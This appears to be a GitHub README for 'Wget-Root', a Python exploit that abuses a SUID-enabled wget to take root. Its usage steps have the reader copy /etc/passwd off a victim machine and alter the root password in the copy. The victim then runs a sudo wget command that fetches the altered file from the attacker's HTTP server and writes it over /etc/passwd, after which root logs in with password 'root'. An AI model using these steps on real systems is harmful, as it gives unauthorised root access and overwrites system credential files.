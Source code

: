 # Wget-Root

This is a python script that exploits wget when being set with a SUID bit, and overwrites the root password.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file)
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.
**Congratulations!** Now switch users to `root` with the password `root`
